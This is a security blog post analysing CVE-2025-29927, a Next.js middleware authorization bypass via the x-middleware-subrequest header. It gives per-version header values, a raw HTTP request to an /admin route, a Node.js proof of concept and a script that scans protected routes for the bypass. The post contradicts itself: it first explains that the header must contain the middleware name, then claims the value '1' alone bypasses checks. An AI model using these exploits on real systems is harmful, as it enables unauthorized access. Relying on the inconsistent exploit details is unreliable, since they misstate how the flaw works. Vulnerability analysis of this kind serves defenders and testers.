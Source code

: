 ```yaml
---
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
layout: post
tags: [Next.js, CVE-2025-29927, middleware, authorization bypass, security, pentesting, red-team, web-security, Node.js, exploit, hacking, cybersecurity, nullsecurityx]
image: /assets/images/next.jpg

---
```


# CVE-2025-29927: Next.js Middleware Authorization Bypass – Deep Technical Analysis

CVE-2025-29927 is a critical security vulnerability in the Next.js framework. This issue arises from the improper handling of the `x-middleware-subrequest` header. This header plays a key role in Next.js middleware execution, and its misuse can bypass authorization checks.

---

## 1️⃣ Role of `x-middleware-subrequest` Header

Next.js uses the `x-middleware-subrequest` header to determine whether a request is an internal subrequest. This header is designed to prevent infinite middleware loops. However, incorrect handling allows external requests to bypass middleware checks.

---

## 2️⃣ Technical Mechanism of the Vulnerability

```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  };
  continue;
}
```

This code reads the `x-middleware-subrequest` header, splits it into an array, and if it contains `middlewareInfo.name`, the middleware is skipped, allowing external requests to bypass authorization.

---

## 3️⃣ Exploit Methods Across Next.js Versions

### 📌 Version 12.2 and Earlier

Middleware files are named `_middleware.ts` and reside in the `pages` folder. The `middlewareInfo.name` is the combination of directory and file name.

```javascript
x-middleware-subrequest: pages/_middleware
```

Setting this header externally can skip middleware checks.

### 📌 Version 12.2 and Later

Middleware files are `middleware.ts`. The `middlewareInfo.name` is just the file name.

```javascript
x-middleware-subrequest: middleware
```

Correctly setting this header still bypasses middleware.

### 📌 Version 13.2.0 and Later

Next.js enforces `MAX_RECURSION_DEPTH` to prevent infinite loops, but misuse of `x-middleware-subrequest` remains exploitable.

```javascript
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

---


<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js?client=ca-pub-9166422523496420"
     crossorigin="anonymous"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-9166422523496420"
     data-ad-slot="8932006521"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

## 4️⃣ Exploit Scenario

```http
GET /admin HTTP/1.1
Host: vulnerable-app.local
x-middleware-subrequest: 1
```

This request bypasses middleware and allows unauthorized access to routes like `/admin`.

### Node.js PoC

```javascript
import fetch from 'node-fetch';

async function exploit() {
    const res = await fetch('http://localhost:3000/admin', {
        headers: { 'x-middleware-subrequest': '1' }
    });
    const body = await res.text();

    if (body.includes('Admin Panel')) {
        console.log('[+] Bypass Successful!');
    } else {
        console.log('[-] Middleware blocking access.');
    }
}

exploit();
```

---

## 5️⃣ JWT / Cookie Combinations

Some projects combine middleware with cookie or JWT role checks:

```javascript
if (!req.cookies.auth_token && req.headers['x-middleware-subrequest'] !== '1') {
    return NextResponse.redirect('/login');
}
```

Adding the header allows access without token or JWT.

---

## 6️⃣ Header Manipulation Scenarios

| Scenario      | Header                                    | Result             |
| ------------- | ----------------------------------------- | ------------------ |
| Simple bypass | x-middleware-subrequest: 1                | Middleware skipped |
| JWT bypass    | x-middleware-subrequest: 1 + missing JWT  | Role check bypass  |
| Cookie bypass | x-middleware-subrequest: 1 + empty cookie | Auth bypass        |

---

## 7️⃣ Automated Test Script (Red-Team Style)

```javascript
import fetch from 'node-fetch';

const routes = ['/admin', '/dashboard', '/settings'];

async function testBypass() {
    for (const route of routes) {
        const res = await fetch(`http://localhost:3000${route}`, {
            headers: { 'x-middleware-subrequest': '1' }
        });
        console.log(`${route}: ${res.status}`);
    }
}

testBypass();
```

This script tests all protected routes automatically to quickly identify which can be bypassed.

---

## 8️⃣ Hacker Perspective

* Auth checks in middleware can be bypassed via header manipulation.
* JWT or cookie combinations can optimize bypass.
* Red-team testing involves code-based exploits and response analysis.
* Summary: `x-middleware-subrequest` = primary exploit entry point.

* NullSecurityX

  
<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="https://twitter.com/intent/tweet?text=CVE-2025-29927: Next.js Middleware Authorization Bypass&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=CVE-2025-29927: Next.js Middleware Authorization Bypass" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->


## 📺 Video Demonstration

<iframe width="100%" height="500" 
src="https://www.youtube.com/embed/S3CVytIv098" 
title="Next.js Middleware Bypass CVE-2025-29927" 
frameborder="0" 
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
allowfullscreen></iframe>


